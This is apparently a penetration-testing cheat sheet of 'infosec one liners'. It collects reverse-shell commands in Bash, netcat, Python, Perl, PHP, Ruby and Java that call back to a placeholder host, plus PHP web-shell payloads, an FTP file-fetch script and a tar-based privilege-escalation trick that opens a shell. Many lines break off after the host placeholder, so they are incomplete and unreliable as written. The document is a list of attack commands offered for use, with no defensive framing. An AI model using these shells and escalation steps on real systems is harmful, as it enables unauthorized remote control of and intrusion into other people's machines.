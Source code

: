 # **infosec one liner**

Bash : bash -i >& /dev/tcp/x.x.x.x  
  
Netcat without e flag : rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc x.x.x.x  
  
Netcat Linux : nc -e /bin/sh x.x.x.x  
  
Netcat windows : nc -e cmd.exe x.x.x.x  
  
Python : python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x  
  
Perl: perl -e 'use Socket;$i="x.x.x.x  
  
PHP command Injection:  
<?php echo system($_GET["cmd"]);?>  
  
#Alternative  
<?php echo shell_exec($_GET["cmd"]);?>  
  
  
  
#bash  
bash -i >& /dev/tcp/x.x.x.x  
  
#perl  
perl -e 'use Socket;$i="x.x.x.x  
  
#python  
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x  
  
  
#php  
php -r '$sock=fsockopen("x.x.x.x  
  
  
#ruby  
ruby -rsocket -e'f=TCPSocket.open("x.x.x.x  
  
  
netcat with e  
nc -e /bin/sh x.x.x.x  
  
  
without e  
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc x.x.x.x  
  
  
#java  
r = Runtime.getRuntime()  
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/x.x.x.x  
p.waitFor()  
  
  
  
#rev shell  
  
# In reverse shell  
echo open x.x.x.x  
echo USER anonymous >> ftp.txt  
echo ftp >> ftp.txt  
echo bin >> ftp.txt  
echo GET file >> ftp.txt  
echo bye >> ftp.txt  
  
# Execute  
ftp -v -n -s:ftp.txt  
  
  
#tar Exploit  
Tar Exploit - one shell script :  
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/x.x.x.x  
tar -cvf a.tar a.sh  
sudo -u onuma tar -xvf a.tar --to-command /bin/bash